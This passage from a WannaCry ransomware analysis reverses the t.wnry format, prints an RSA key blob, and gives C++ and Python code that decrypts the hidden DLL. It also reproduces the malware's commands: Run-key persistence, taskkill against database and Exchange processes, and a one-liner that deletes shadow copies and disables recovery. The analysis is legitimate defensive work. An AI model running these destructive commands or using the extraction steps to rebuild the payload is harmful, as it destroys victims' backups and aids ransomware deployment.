	The function is a function of an object because of `__thiscall` and `*this` reference. The first interesting part comes when it attempts to open the file `t.wnry`, the one with the unidentifiable content with a custom signature, with [`CreateFileA`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea), so that if the file is opened successfully, then with [`GetFileSizeEx`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfilesizeex) we retrieve the size of the file, checking that it doesn't surpass 100MB (`0x6400000`). If it doesn't surpass that size, then it compares the first 8 bytes of `t.wnry` and compares it to the string `WANACRY!`, which is exactly the same custom signature we commented on before. 
	<div align="center"></div>
	Then we read the next 4 bytes, which, if it equals 256, then it continues reading. Which, based on the next 4 bytes in `t.wnry` in little endian, is actually 256:
	<div align="center"></div>
	After that it will read and save in this (object) 256 bytes of a supposedly AES key encrypted with the RSA2 key we loaded from memory (because of the size, the context, and the next function). After that it reads 4 mysterious bytes, probably just filler data. After that it reads 8 mysterious bytes that are also used later, which if checked at HxD is 65536. 
	<div align="center"></div>
	And with the `header_size_4` variable (256) and the 256 bytes of the suspected AES key encrypted with RSA2, because of the `0x4c8` being the same memory position offset where the 256 bytes read have been saved, a function of the object is called `FUN_004019e1()`.
	- decrypt_w_rsakey (FUN_004019e1)
		The first fix will be making the correct variables for the params, where the second parameter, the 256 bytes read, has to be a `BYTE` pointer. After fixing and tidying up the code, we can see that the object tries to decrypt with a key, probably the RSA2 key we retrieved from memory, with the 256 bytes of content we passed with data, decrypting its content onto `data_out`, which will be the AES key.
		<div align="center"></div>
		Based on the functionality, the function will be renamed to `decrypt_w_rsakey`.
		<div align="center"></div>
	After that, there are two mysterious functions that are hard to understand and correctly explain their behaviour: `FUN_00402a76()` and `FUN_00403a77()`.
	<div align="center"></div>
	- aes_function_1 (FUN_00402a76)
		Checking the parameters that we pass, we have the decrypted content of `t.wnry`, its size, and a byte `0x10` (16 bytes) that doesn't make sense until we correlationate it with the code, because AES uses 128-bit blocks (16 bytes). Also the PTR_DAT_0040f578 references an address of 32 bytes (256 bits). 
		<div align="center"></div>
		As an example of why it has to be an AES function, there is a check of `param_3` which is `decrypt_twnry_size`, that checks if it's 16 (128 bits), 24 (192 bits) or 32 (256 bits), the same exclusive keys that the AES algorithm can use based on [`NIST DOCS`](https://web.archive.org/web/20150407153905/http://csrc.nist.gov/publications/fips/fips197/fips-197.pdf), and if it's not the same, it throws an exception.
		<div align="center"></div>
		But the most important thing and the proof that it is an AES function is that in the part where it starts doing `XOR` operations, common in AES, it interacts with a pointer of data that has the same values as the `forward S-Box` used in the SubBytes step of AES encryption of 256 bytes. 
		This is the table of the [`NIST DOCS`](https://web.archive.org/web/20150407153905/http://csrc.nist.gov/publications/fips/fips197/fips-197.pdf):
		<div align="center"></div>
		And this is the pointer `DAT_004089fc` being used in the function:
		<div align="center"></div>
		<div align="center"></div>
		Based on the functionality, we will rename the function to `aes_function_1`:
		<div align="center"></div>
	- aes_function_2 (FUN_00403a77)
		There are also `XOR` operations and some pointer data that looks like `custom S-box`; the function will be renamed to `aes_function_2`:
		<div align="center"></div>
		Also the second parameter is the RSA2 key that we have seen in `decrypt_w_rsakey()`. Which, based on the parameters, will decrypt with the AES key the rest of the content, based on the full size to read with `local_28.s.LowPart`, and save it in the `large_buffer`.
		<div align="center"></div>
		It also has a characteristic table used in the AES decryption process, the `inverse S-BOX` table, in the pointer of data `DAT_00408afc`. It's found in `aes_function2() > FUN_00403797 > FUN_004031bc`.
		<div align="center"></div>
		<div align="center"></div>
	Based on the whole behaviour, it takes the first 8 bytes and compares it with `WANACRY!` which is the custom signature and we have seen it in `t.wnry`. 
	<div align="center"></div>
	Then it takes 4 bytes that represent the AES key encrypted with the RSA2 key size, which is 256.
	We use the size we retrieved to obtain the next 256 bytes that we will decrypt with the RSA2 key we found in memory to get the encrypted AES key.
	After that, it takes 4 mysterious bytes that seem to be filler data.
	<div align="center"></div>
	And later, 8 bytes that will be used to allocate a huge buffer of data as an amount of data to allocate. The size is 65536.
	<div align="center"></div>
	Then the rest of the data (65536 bytes) is decrypted with the decrypted AES key.
	
| Field Name            | Start Offset (hex) | End Offset (hex) | Size (bytes) | Description                                                               |
| --------------------- | ------------------ | ---------------- | ------------ | ------------------------------------------------------------------------- |
| **Signature**         | `0x0000`           | `0x0007`         | 8            | Must match `"WANACRY!"`                                                   |
| **Header size**       | `0x0008`           | `0x000B`         | 4            | Expected to be `0x00000100` (256 bytes)                                   |
| **Encrypted AES key** | `0x000C`           | `0x010B`         | 256          | RSA-encrypted AES key to decrypt the payload                              |
| **Unknown/filler**    | `0x010C`           | `0x0110`         | 4            | Possibly unused or reserved                                               |
| **Payload size**      | `0x0110`           | `0x0117`         | 8            | Value: `0x0000000000010000` = 65,536 bytes (size of encrypted data block) |
| **Encrypted payload** | `0x0118`           | `0x10117`        | 65,536       | Encrypted data to be decrypted using the AES key                          |

.
	And the function returns the decrypted payload.
	Based on the functionality, we will rename the function to `decrypt_twnry`:
	<div align="center"></div>


##### DLL Mysterious_executable - Retrieving decrypted payload
First we will need to retrieve the RSA2 key we had in the `import_key()` function and select all the data.

<div align="center"></div>
Then we right-click and select the `Copy Special...` option and choose the `Byte String` copy option.

<div align="center"></div>

<div align="center"></div>

So the RSA2 key in hex is:
`07 02 00 00 00 a4 00 00 52 53 41 32 00 08 00 00 01 00 01 00 43 2b 4d 2b 04 9c 0a d9 9f 1e da 5f ed 32 a9 ef e1 ce 1a 50 f4 15 e7 51 7b ec b0 27 56 05 58 b4 f6 83 c9 b6 77 5b 80 61 18 1c ab 14 d5 6a fd 3b 70 9d 13 3f 2e 21 13 f1 e7 af e3 fb ab 6e 43 71 25 6d 1d 52 d6 05 5f 13 27 9e 28 89 f6 ca 90 93 0a 68 c4 de 82 9b aa c2 82 02 b1 18 60 01 63 1b bc 71 8d be 64 88 5e d5 0d 6c c1 9c c9 01 36 89 c9 80 37 8f 1d 89 67 4f 0c b1 3c 61 09 3a 02 5d b8 4e f5 88 0a 9f 8c 0a 86 df 91 fe cd 9f a3 a0 13 d3 2d 30 77 d1 f0 a8 d7 ab 96 e5 48 96 37 03 69 64 97 06 5c 27 50 8c 91 76 67 85 3a 6c 6a b2 59 12 0a 61 f2 a1 ee a8 24 c8 e4 b1 11 6d d6 cc f7 8f 4c 5e b0 55 84 81 6d 60 45 84 0f fc df f9 27 a5 52 c9 5b 06 28 a3 de 74 03 d6 c7 72 66 dc be a4 1e ff 20 96 ed 51 84 00 cc 9c 36 64 f2 85 4d cf 36 60 dd c8 b0 f1 91 db 7a 0b 83 ee cf ef 19 d7 12 da ae 86 d9 f9 0e be 02 af 78 f3 5b 49 be 0c 98 af b5 5f d6 8a 4c 05 48 64 9c 40 e1 1c f9 3c c4 e4 42 08 2d b2 b8 8a e6 0b 6d df 93 cc 34 e8 48 30 93 5d df 8d 2e b3 3d 35 e4 66 30 ad 8b e7 20 3d e0 c9 d9 6c 36 4b 79 b9 64 cd bc 5e 24 48 d4 88 90 1c 3d 17 4e 65 0c ec fb 1b 2b ec 5c c3 06 d6 6c 39 d8 6c 7e 23 9f 40 af 40 61 b4 fb b1 f6 82 cd a1 26 b8 8d c8 38 8f 94 03 4e fb bb ec 17 5e dd 46 f7 e7 fb df 25 21 ad 35 bd 9b 1d b5 01 3f 4e b0 20 b7 23 36 79 81 29 3c de e2 76 d7 e6 1f 9f ea 2d a5 c4 6a aa 40 30 0d cc fe 58 e9 89 28 cb d7 e4 9c 7b b9 50 17 a7 31 21 3b b4 91 f3 84 a6 bd 9e 03 ca e9 cd ee 4d 2b 29 fa 02 0f e7 2c ae 30 bd 85 cc 2d 13 83 12 53 d3 f3 41 4e f5 23 d6 ce 5f 41 cd 81 7c 3b f0 49 81 b8 ee 8d 35 3c ba ec 92 c7 ee cf 24 63 01 f3 4a f4 d9 da 8b e2 c0 a4 a5 7f da 8f 3c 50 19 ec c2 33 5a 8f ee 7b 5a e9 83 7a 96 fd 94 4b 69 50 9a d2 34 d1 09 61 45 96 7d d8 12 5e a8 ae 7a c0 26 a5 6f d6 e5 64 93 03 13 a3 29 6d 03 24 f7 c2 89 e9 46 46 72 ab 54 dc d8 c7 75 0f 2d 13 31 e7 6d 88 a1 3e a1 2d be ff db 94 d1 bd 6d e3 c2 55 c7 ca fb 2b 63 31 17 97 42 91 93 21 dd 53 25 1d 64 c9 95 64 d9 b5 7a 9f a3 ca e2 0f 19 66 e4 04 b5 4d 6f 5d 33 76 1c e9 20 71 4b 22 e0 55 5e 91 56 54 94 3c 36 3b fd fe a1 62 d0 df d3 6e 95 8b e1 96 ce 4f 7c 78 38 2b 5e 5f 1b 8c 93 80 5a 6d 23 6f 6d f7 19 88 f1 8c 3d 52 1b d8 ab b4 d4 a0 88 0d ac fb 7a fa c2 35 c4 a7 a9 50 62 4a ac 98 9b 30 e1 59 37 51 0c 6d 28 74 ac 11 d9 70 38 2c 35 d3 b8 d9 f1 b7 4f a1 34 36 8b 29 61 39 35 00 70 de 73 e5 d5 1c bb 5e b8 60 b6 70 49 85 79 65 46 7a 94 81 d6 cc 12 05 84 43 40 6d fc 77 55 8e 45 f8 3d b9 87 a7 89 d2 59 28 ce 16 9a 53 dc 9d 82 93 ad b1 3c b9 a6 2d aa 9d 43 ec e2 7d ca 32 2f 4f 2d 5f 2e 58 38 77 2e 2b 1b 0a fa fe 79 5a 80 e1 8d 23 67 40 ff d3 d3 95 7a 14 be 93 1b f8 ef 37 c2 ee c8 bf 59 3c 9c 5d 25 b6 44 ff 6b 9b e9 b4 fd 59 85 ba f1 3a 01 05 f1 3e 62 0d 7f 1f e2 81 97 66 63 90 20 bb 96 b4 cf 44 c7 7c 7e 7d 25 2e 31 35 8b 2a 18 ab d2 41 c9 32 aa 4b ca ef 28 1d bf 2a 9c 1c 36 02 6b 02 0f a7 ed 10 c0 a0 da cf 09 72 59 5b c6 3c f9 15 7f aa 22 00 72 e0 a5 5c 79 06 6e 62 35 33 89 56 ab 5f f1 fd 93 62 4e 81 1e 3d fc 05 69 a4 2f 51 1b e2 c8 0e a6 86 a2 bf 9d a4 9c b3 dc 89 b3 e3 b0 f0 d7 60 d6 6c de 69 1e c9 b0 02 85 96 d7 35 86 36 16 5b e6 05 e1 f9 0b ed 25 80 e0 0a 04 c5 96 5d 34 6c 4c f0 e0 c7 b7 8a 90 3c 98 a2 7a 92 ea 51 e9 05 ec 7d 3c c9 cd aa b6 66 b3 db 48 cf 7d fb 6d dd 04 b9 1b 97 9e be e1 58 66 fd e9 70 ac f9 ff b6 23 17 fd f0 35 0c 41 3a 38 9a 2f 3f 16 2a e8 a9 73 30 7c 38 c9 c4 7e c6 68 a4 78 fe 6d 00 28 4e 33 87 e5 b6 c9 c5 3d ec 0e 92 03 eb 15 9b 38 73 bf 0f c1 7b 5a 89 51 f1 97 71 f5 d5 ca 44 9f 87 e7 dd 35 6d c0 1f cd 5b 93 c1 00 0e f1 a9 25 c8 f6 e8 8b c7`

Now we will need to retrieve with HxD the AES encrypted key and the payload-encrypted data in `t.wnry` and also put the previous RSA2 key in another file:
To get a range of data selected in HxD, you will need to go to the `Edit > Select` block or press `Ctrl + E`.

<div align="center"></div>
Then you will have to specify a `Start-offset` and a `End-offset` or a `Length`:

<div align="center"></div>
- encrypted_aes_key.bin:
	First select the data range and copy it.
	<div align="center"></div>
	Now create a new file on `File > New` or press `Ctrl+N`. 
	<div align="center"></div>
	And now right-click and `Paste insert` or `Ctrl+V` at the start.
	<div align="center"></div>
	And save it in `File > Save as...`.
- encrypted_payload.bin:
	The same as the previous one.
	<div align="center"></div>
With this done, now we have the encrypted files:

<div align="center"></div>
- rsa2key.bin:
	<div align="center"></div>

| Field Name            | Start Offset (hex) | End Offset (hex) | Size (bytes) | Description                                      |
| --------------------- | ------------------ | ---------------- | ------------ | ------------------------------------------------ |
| **Encrypted AES key** | `0x000C`           | `0x010B`         | 256          | RSA-encrypted AES key to decrypt the payload     |
| **Encrypted payload** | `0x0118`           | `0x10117`        | 65,536       | Encrypted data to be decrypted using the AES key |

We'll replicate the decryption of the AES key in C++ because `Wincrypt.h`, which is specific to C-based environments, is required for the process. Other languages are not well-suited for this task due to incompatibility with the key format and the lack of native support for this Windows cryptographic API.
```c++
#include <stdio.h>
#include <tchar.h>
#include <windows.h>
#include <Wincrypt.h>

int main()
{
  // RSA variables
  HCRYPTPROV hCryptProv;        // Cryptographic context
  HCRYPTKEY hRsaKey;          // Imported RSA key
  DWORD rsaKeyDataLen = 0x494;     // RSA key length
  BYTE rsaKeyData[0x494];       // RSA data

  // Read RSA key from file
  FILE* rsaKeyFile = NULL;
  if (fopen_s(&rsaKeyFile, "rsa2key.bin", "rb") != 0 || rsaKeyFile == NULL) {
    printf("Failed to open rsa2key.bin.\n");
    return -1;
  }

  if (fread(rsaKeyData, rsaKeyDataLen, 1, rsaKeyFile) != 1) {
    printf("Failed to read RSA key from file.\n");
    fclose(rsaKeyFile);
    return -1;
  }
  fclose(rsaKeyFile);

  // Acquire cryptographic context
  if (!CryptAcquireContext(&hCryptProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
    printf("Failed to acquire crypto context.\n");
    return -1;
  }
  printf("Acquired crypto context.\n");

  // Import RSA key
  if (!CryptImportKey(hCryptProv, rsaKeyData, rsaKeyDataLen, 0, 0, &hRsaKey)) {
    printf("Failed to import RSA key.\n");
    return -1;
  }
  printf("RSA key imported successfully.\n");

  // AES Key Variables (encrypted with RSA)
  BYTE encryptedAesKey[256];    // Encrypted AES key
  DWORD encryptedAesKeyLen = 256;  // Encrypted AES key length

  // Read encrypted AES key from file
  FILE* aesEncryptedFile = NULL;
  if (fopen_s(&aesEncryptedFile, "encrypted_aes_key.bin", "rb") != 0 || aesEncryptedFile == NULL) {
    printf("Failed to open encrypted_aes_key.bin.\n");
    return -1;
  }

  

  if (fread(encryptedAesKey, sizeof(encryptedAesKey), 1, aesEncryptedFile) != 1) {
    printf("Failed to read AES key.\n");
    fclose(aesEncryptedFile);

    return -1;

  }
  fclose(aesEncryptedFile);

  // Decrypt AES key with the imported RSA key
  if (!CryptDecrypt(hRsaKey, 0, TRUE, 0, encryptedAesKey, &encryptedAesKeyLen)) {
    printf("Decryption of AES key failed.\n");
    return -1;
  }
  printf("Decryption of AES key successful.\n");

  // Show the decrypted AES key
  printf("AES key:\n");
  for (DWORD i = 0; i < encryptedAesKeyLen; i++) {
    if (i && i % 16 == 0)
      printf("\n");
    printf("%02x ", encryptedAesKey[i]);
  }
  printf("\n");

  return 0;
}
```

The result will be:

<div align="center"></div>

With these resources, we will create a script in Python to decrypt the rest of the data with the AES key.

First, download Python from the official website.
`https://www.python.org/downloads/`

After that, with CMD, you should retrieve the Python version to confirm it was correctly installed with:
> python --version

<div align="center"></div>

To use cryptographic operations, we will download the [`PyCryptodome package`](https://pypi.org/project/pycryptodome/) by using the next command with CMD:
>pip install pycryptodome

<div align="center"></div>

Then with this script we will decipher the rest of the data with the decrypted AES key.
```python
from Crypto.Cipher import AES

# Decrypted AES key
key = bytes.fromhex("bee19b98d2e5b12211ce211eecb13de6")

# Empty IV (16 null bytes)
iv = b"\x00" * 16

# Initialize AES cipher in CBC mode
cipher = AES.new(key, AES.MODE_CBC, iv=iv)

# Read encrypted data
with open("encrypted_payload.bin", "rb") as f:
  enc_payload = f.read()

# Decrypt the payload
dec_payload = cipher.decrypt(enc_payload)

# Save decrypted content
with open("mysterious_executable.bin", "wb") as f:
  f.write(dec_payload)

print("Decryption complete: mysterious_executable.bin created.")
```

If everything goes right the prompt `Decryption complete: mysterious_executable.bin created.` will appear.

<div align="center"></div>

Then looking at `mysterious_executable.bin`, we can see it's an executable because of the signature (`MZ`):

<div align="center"></div>
Also, if we look at the header `PE\0\0` signature, we will see some bits later in the characteristics field, based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format), the `0x2000` bit is activated, which is the flag `IMAGE_FILE_DLL`, confirming it's a DLL file.

<div align="center"></div>

| Offset | Size | Field                    | Description                                                              |
|--------|------|--------------------------|--------------------------------------------------------------------------|
| 0      | 4    | **Signature**            | Signature "PE\0\0" (`50 45 00 00`) indicating the start of the PE header. |
| 4      | 2    | **Machine**              | `0x014C`  Intel 386 (x86) architecture.                                 |
| 6      | 2    | **NumberOfSections**     | `0x0005`  Number of sections in the file.                               |
| 8      | 4    | **TimeDateStamp**        | `0x4A5BDB97`  UNIX timestamp (since Jan 01, 1970).                      |
| 12     | 4    | **PointerToSymbolTable** | `0x00000000`  No COFF symbol table present.                             |
| 16     | 4    | **NumberOfSymbols**      | `0x00000000`  No COFF symbols present.                                  |
| 20     | 2    | **SizeOfOptionalHeader** | `0x00E0`  Size of the optional header: 224 bytes.                       |
| 22     | 2    | **Characteristics**      | `0x210E`  File attributes (see table below).                            |

| Flag                             | Value    | Description                                           |
| -------------------------------- | -------- | ----------------------------------------------------- |
| `IMAGE_FILE_EXECUTABLE_IMAGE`    | `0x0002` | The image file is valid and can be executed.          |
| `IMAGE_FILE_LINE_NUMS_STRIPPED`  | `0x0004` | COFF line numbers have been removed. Deprecated.      |
| `IMAGE_FILE_LOCAL_SYMS_STRIPPED` | `0x0008` | COFF local symbols have been removed. Deprecated.     |
| `IMAGE_FILE_32BIT_MACHINE`       | `0x0100` | The machine is based on a 32-bit architecture.        |
| `IMAGE_FILE_DLL`                 | `0x2000` | The image file is a DLL.                              |
##### Resource 1831.bin (tasksche.exe)
The rest of the `wWinMain` function is just creating and executing the DLL we decrypted.

<div align="center"></div>

- FUN_004021bd
	We can see that it first checks if the payload starts with `MZ`, so it's effectively checking the same payload.
	
	<div align="center"></div>
- FUN_00402924
	Starts the decrypted payload (DLL) with his `TaskStart` function.
	
	<div align="center"></div>

The workflow of `1831.bin` is the next one:

<div align="center"></div>
##### DLL Mysterious_executable
**General File Information**
To check general information about `mysterious_executable.bin`, we will use the program [`Detect It Easy`](https://github.com/horsicq/Detect-It-Easy).

<div align="center"></div>
At the bottom we can see in the scan section that it's a PE file for 32 bits, the packer is Microsoft Visual C++, and it indicates that it has a high entropy.

<div align="center"></div>
If we go to the entropy section, we will see that the entropy is high, and most of the executable is packed; 22% of the content is packed and has an entropy of `6.27944`.

<div align="center"></div>
Besides that, we can see the file properties showing its size:

<div align="center"></div>
To get the file hashes, we can use the following commands from PowerShell:
> Get-FileHash -Path ".\mysterious_executable.bin" -Algorithm MD5
> Get-FileHash -Path ".\mysterious_executable.bin" -Algorithm SHA1
> Get-FileHash -Path ".\mysterious_executable.bin" -Algorithm SHA256
> (Get-FileHash -Path ".\mysterious_executable.bin" -Algorithm SHA512).Hash

<div align="center"></div>

| Campo            | Valor                                                                                                                                                                                                                                                                                                                         |
| ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Name**         | mysterious_executable.bin                                                                                                                                                                                                                                                                                                     |
| **Hash**         | MD5: `F351E1FCCA0C4EA05FC44D15A17F8B36`  <br>SHA1: `7D36A6AA8CB6B504EE9213C200C831EB8D4EF26B`  <br>SHA256: `1BE0B96D502C268CB40DA97A16952D89674A9329CB60BAC81A96E01CF7356830`  <br>SHA512: `C139BDDAE3571CAC3D832535E0C3BC6D817B86FB3F7B68864D1B94E9C37B38856F2EEEB49C16F2FB8FEE45E6A7C95BC67072443B7428034B6DEF10D3F724CA22` |
| **Type of file** | PE                                                                                                                                                                                                                                                                                                                            |
| **System**       | MS Windows                                                                                                                                                                                                                                                                                                                    |
| **Architecture** | 32 bits                                                                                                                                                                                                                                                                                                                       |
| **Size**         | 64.0 KB                                                                                                                                                                                                                                                                                                                       |
| **Packer**       | Microsoft Visual C++                                                                                                                                                                                                                                                                                                          |
| **Entropy**      | 6.27944                                                                                                                                                                                                                                                                                                                       |


Now we will import the binary `mysterious_executable.bin` as we did with the previous binary samples.

<div align="center"></div>
Same settings as before.

Now we first go to check the strings, on `Window > Defined Strings`, to see a general sight of the program.

<div align="center"></div>
There we can see at first sight multiple Windows functions thats interact with files.

<div align="center"></div>
A vast amount of file extensions.

<div align="center"></div>
Cryptographic functions, more file functions, and another executable, `@WanaDecryptor@.exe`, which, by the name, could be the program responsible for decrypting the encrypted files by the ransomware when the payment is successful.

<div align="center"></div>
Based on the context and the strings of the program, this executable starts the encrypting process of the user files because it's already infected. Because we will be analysing evasion techniques, this executable will be out of scope, as the infection was already done.

### Dynamic analysis
The dynamic analysis will be focused on the `mysterious_executable.bin` which we will review the most important parts with x32dbg, making the analysis faster, because the previous static analysis is precise and there is no need to review it.

#### New file @WanaDecryptor@.exe (u.wnry)
 - mysterious_executable.bin -> TaskStart -> FUN_100057c0 -> FUN_10004cd0
	 At this function, if `@WanaDecryptor@.exe` doesn't exist, it checks it with [`GetFileAttributesW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfileattributesw), and then it copies `u.wnry` into a new file named `@WanaDecryptor@.exe`.
```c
void FUN_10004cd0(void)
{
  ...
  DVar2 = GetFileAttributesW("@WanaDecryptor@.exe");
  if (DVar2 == 0xffffffff) {
    CopyFileA("u.wnry","@WanaDecryptor@.exe",0);
  }
  ...
}
```

#### Set Persistence
- mysterious_executable.bin -> TaskStart -> lpStartAddress_10004990 -> FUN_100047f0
	At this function we can see it will use the registry through CMD to set persistence by creating a new entry under `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`, using the `reg add` command. The value name is randomly generated (e.g., `"oqywognupbonhr845"`), and the data points to the malicious executable `tasksche.exe`. This ensures that the malware is automatically executed every time the user logs in, implementing persistence via the `Run` key in the Windows registry.
```sh
cmd.exe /c reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "oqywognupbonhr845" /t REG_SZ /d "\"\"" /f Users\ANON\Desktop\Malware Samples\WannaCry Bueno\python_script\tasksche.exe\"" /f
```
.
	<div align="center"></div>
```c
void __cdecl FUN_100047f0(undefined4 param_1)
{  
  pcVar2 = "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run";
  ...
  FUN_100014a0((int)&local_464); // Get random string with computer name
  sprintf(local_400,"cmd.exe /c reg add %s /v \"%s\" /t REG_SZ /d \"\\\"%s\\\"\" /f",&local_498,&local_464,param_1); // Set persistence at registry
  FUN_10001080(local_400,10000,(LPDWORD)0x0); // Create process for cmd with args
  return;
}
```
.
	- FUN_100014a0:
		The function generates a random string based on the computer name, obtained using the Windows function [`GetComputerNameW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getcomputernamew), which it uses as a seed to generate random values. The string is constructed with 8 or 15 random letters followed by up to three random numbers (for example, `oqywognupbonhr845`).
```c
int __cdecl FUN_100014a0(int param_1)
{
  ...
  GetComputerNameW(&local_190,&local_194);
  ... // Get custom seed with computer name
  srand(uVar6);
  uVar6 = rand();
  uVar6 = uVar6 & 0x80000007;
  ...
  if ((int)uVar6 < 0) {
    uVar6 = (uVar6 - 1 | 0xfffffff8) + 1;
  }
  if (0 < (int)(uVar6 + 8)) { 
    do { // Between eight and fifteen letters
      iVar3 = rand();
      *(char *)(iVar4 + param_1) = (char)(iVar3 % 0x1a) + 'a'; // random 'a''z'
      iVar4 = iVar4 + 1;
    } while (iVar4 < (int)(uVar6 + 8));
  }
  for (; iVar4 < (int)(uVar6 + 0xb); iVar4 = iVar4 + 1) { // Up to three numbers
    iVar3 = rand();
    *(char *)(iVar4 + param_1) = (char)(iVar3 % 10) + '0'; // random '0''9'
  } 
  return param_1;
}
```
.
	- FUN_10001080
		Executes `param_1` as a process with [`CreateProcessA`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa).
```c
undefined4 __cdecl FUN_10001080(LPSTR param_1,DWORD param_2,LPDWORD param_3)
{
  ...
  BVar1 = CreateProcessA((LPCSTR)0x0,param_1,(LPSECURITY_ATTRIBUTES)0x0,(LPSECURITY_ATTRIBUTES)0x0,0,0x8000000,(LPVOID)0x0,(LPCSTR)0x0,&local_44,&local_54);
  if (BVar1 != 0) {
    if (param_2 != 0) {
      DVar2 = WaitForSingleObject(local_54.hProcess,param_2);
      if (DVar2 != 0) {
        TerminateProcess(local_54.hProcess,0xffffffff);
      }
      if (param_3 != (LPDWORD)0x0) {
        GetExitCodeProcess(local_54.hProcess,param_3);
      }
    }
    CloseHandle(local_54.hProcess);
    CloseHandle(local_54.hThread);
    return 1;
  }
  return 0;
}
```

 - mysterious_executable.bin -> TaskStart -> FUN_100057c0 -> FUN_10004cd0
	 The function builds a script that generates and executes a VBScript (`m.vbs`) that creates a shortcut (`@WanaDecryptor@.exe.lnk`) pointing to the ransomware binary located in the attacker's working directory. The shortcut is likely placed on the desktop or within an accessible user path.
	 The shortcut `@WanaDecryptor@.exe.lnk` does not provide automatic persistence but serves as a **social engineering mechanism**. It entices the user to manually relaunch the ransomware under the belief that it is a decryption tool by the part "Decryptor". This technique acts as a **backup entry point** if the primary persistence via the registry is removed and increases the chances of ransom payment. And later executes it with `FUN_10001080()`.
```vb
@echo off
echo SET ow = WScript.CreateObject("WScript.Shell")> m.vbs
echo SET om = ow.CreateShortcut("C:\Users\ANON\Desktop\Malware Samples\WannaCry Bueno\python_script\@WanaDecryptor@.exe.lnk")>> m.vbs
echo om.TargetPath = "C:\Users\ANON\Desktop\Malware Samples\WannaCry Bueno\python_script\@WanaDecryptor@.exe">> m.vbs
echo om.Save>> m.vbs
cscript.exe //nologo m.vbs
del m.vbs
```
.
	<div align="center"></div>

#### Kill processes
- mysterious_executable.bin -> TaskStart -> FUN_100057c0
	Execute with `FUN_10001080()` the [`taskkill`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/taskkill) command to stop the following processes and tasks:
		- `Microsoft.Exchange.*` (includes multiple Exchange services)
		- `MSExchange.*` (includes multiple Exchange services)
		- `sqlserver.exe`
		- `sqlwriter.exe`
		- `mysqld.exe`
```c
void FUN_100057c0(void)
{
    ...
    FUN_10001080("taskkill.exe /f /im Microsoft.Exchange.*",0,(LPDWORD)0x0);
    FUN_10001080("taskkill.exe /f /im MSExchange*",0,(LPDWORD)0x0);
    FUN_10001080("taskkill.exe /f /im sqlserver.exe",0,(LPDWORD)0x0);
    FUN_10001080("taskkill.exe /f /im sqlwriter.exe",0,(LPDWORD)0x0);
    FUN_10001080("taskkill.exe /f /im mysqld.exe",0,(LPDWORD)0x0);
    ...
}
```

#### Delete shadow copies
- mysterious_executable.bin =>TaskStart -> FUN_100057c0
	If we look at one line, we can see that `@WanaDecryptor@.exe` is executed with an extra parameter, `vs`. `FUN_10001080()` executes a CMD process with the following arguments:
	"`cmd.exe /c start /b @WanaDecryptor@.exe vs`"
	
	<div align="center"></div>
```c
void FUN_100057c0(void)
{
    ...
    if (iVar1 + 1 == 1) {    
        sprintf(acStack_d30,"cmd.exe /c start /b %s vs","@WanaDecryptor@.exe");
        FUN_10001080(acStack_d30,0,(LPDWORD)0x0);
    }
    ...
}
```
.
To continue analysing, this we will import u.wnry in Ghidra, which is `@WanaDecryptor@.exe`, and analyse it as always.
- @WanaDecryptor@.exe => UndefinedFunction_004064d0
	When `@WanaDecryptor@.exe` is executed with the `vs` argument, compared at `DAT_004210a0`:
	
	<div align="center"></div>
	Then it waits 10 seconds and then runs the following command that deletes all [`shadow copies`](https://learn.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service), disables the system's recovery options, and deletes the [`wbadmin`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wbadmin) catalogue.
```
cmd.exe /c vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no & wbadmin delete catalog -quiet
```
.
